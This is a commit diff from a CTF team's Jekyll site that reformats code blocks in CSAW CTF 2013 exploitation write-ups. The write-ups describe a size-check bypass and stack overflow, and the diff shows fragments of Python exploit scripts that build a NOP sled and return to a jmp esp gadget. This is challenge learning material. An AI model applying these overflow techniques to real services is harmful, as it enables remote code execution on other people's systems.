

Before and after one commit to dciets/dciets.github.io, a Jekyll site: the page built from writeups/_posts/2013-09-23-csaw-ctf-2013-exp400_1.markdown, in a window 1280 px wide. Shown: the top 778 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; Markdown is read by kramdown in place of the engine named in the settings; comment, search, counter and statistics services are not loaded.

Commit message:
fix code block

````diff
--- a/writeups/_posts/2013-09-23-csaw-ctf-2013-exp300.markdown
+++ b/writeups/_posts/2013-09-23-csaw-ctf-2013-exp300.markdown
@@ -10,7 +10,9 @@ Once we are logged we are prompt to enter a new entry into the diary. We first e
 The exploit is that the size we send first is then used by `recv` to read our entry into a fixed sized buffer of `0x400` bytes. Note that there is a check to see if the size we provided is below `0x400`, but giving a 2 bytes negative number such a `0xFFFF` would pass the test, but still read `0xFFFF` bytes of data, allowing us to smash the stack and overwrite the return adresse.
 
 Since there were no `jmp esp` instruction in the program, I scanned the libc to find an adresse we could return to that would then jump on the shellcode in the buffer. The exploit script used is:
-```
+
+```python
+
 #!/usr/bin/env python
 
 import socket
@@ -106,4 +108,5 @@ def find_jmp_esp():
 jmpesp_addr = find_jmp_esp()
 print 'jmpesp_addr: ', hex(jmpesp_addr)
 exploit(jmpesp_addr)
+
 ```
--- a/writeups/_posts/2013-09-23-csaw-ctf-2013-exp400_1.markdown
+++ b/writeups/_posts/2013-09-23-csaw-ctf-2013-exp400_1.markdown
@@ -8,17 +8,18 @@ This challenge was a service reading prompting some data, doing some stuff and t
 There were some `jmp esp` in the file we could use, so we just had to use it to jump in the stack and execute our shellcode. $esp wasn't pointing to the buffer, but by writing a nop slope and then the shellcode right before the return adresse, a jump on $esp would lead to our shellcode.
 
 The exploit script was:
-```
+
+```python
+
 #!/usr/bin/env python
 
 from struct import pack
 shellcode = ""
 
-def exploitffe4():
-  ret_off = 417
-  off_send = pack("I", 0x080DE74F) # jmp esp location
-  payload = '\x90' * (ret_off - len(shellcode)) + shellcode + off_send
-  print(payload)
+ret_off = 417
+off_send = pack("I", 0x080DE74F) # jmp esp location
+payload = '\x90' * (ret_off - len(shellcode)) + shellcode + off_send
+print(payload)
 
-exploitffe4()
+
 ```
````
Also changed, not shown: writeups/_posts/2013-09-23-csaw-ctf-2013-exp200.markdown (+7 -2 lines).
